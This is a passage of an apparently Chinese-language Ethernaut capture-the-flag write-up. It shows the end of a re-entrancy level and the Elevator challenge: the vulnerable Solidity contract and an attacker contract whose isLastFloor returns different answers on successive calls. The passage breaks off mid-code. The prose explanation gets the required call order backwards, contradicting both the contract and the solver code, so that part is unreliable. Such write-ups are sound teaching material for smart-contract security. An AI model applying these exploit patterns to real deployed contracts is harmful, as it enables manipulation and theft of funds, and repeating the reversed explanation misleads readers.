           ```

          我们的receive函数在接收到对方合约的交易后会继续调用对方合约的withdraw一直到对方的targetvalue

12.   **Elevator**

      ```solidity
      
      
      Things that might help:
      Sometimes solidity is not good at keeping promises.
      This Elevator expects to be used from a Building.
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.0;
      
      interface Building {
        function isLastFloor(uint) external returns (bool);
      }
      
      
      contract Elevator {
        bool public top;
        uint public floor;
      
        function goTo(uint _floor) public {
          Building building = Building(msg.sender);
      
          if (! building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
          }
        }
      }
      ```

      *   电梯爬楼梯，我们要让 top==true,注意到需要满足 第一次`building.isLastFloor(_floor)==true`&&第二次 `building.isLastFloor(floor)==false`，而这俩次的floor其实是同一个变量，只需实现一个合约，第一次调用为true，第二次为false即可

          ```solidity
          pragma solidity ^0.8.0;
          
          interface Elevator{
              function goTo(uint _floor) external;
          }
          contract solve {
              address targetAddress=0x4C66169fDFA793096783F58EcB2fDe1D845D3A3b;
              uint public count=0;
              function isLastFloor(uint _floor) external returns(bool){
                  count++;
                  if(count==1)
                  return false;
                  else
                  return true;
              }
              function attack() external payable{
                  Elevator(targetAddress).goTo(0);
                  